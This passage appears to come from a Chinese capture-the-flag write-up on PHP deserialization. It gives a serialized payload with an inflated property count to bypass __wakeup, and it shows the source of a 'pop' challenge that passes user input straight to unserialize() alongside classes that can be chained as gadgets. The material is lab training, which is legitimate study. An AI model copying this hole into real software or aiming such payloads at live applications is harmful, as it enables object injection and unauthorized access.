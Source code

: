 把属性数目改一下

```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```



### pop

```php
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);

?>
```

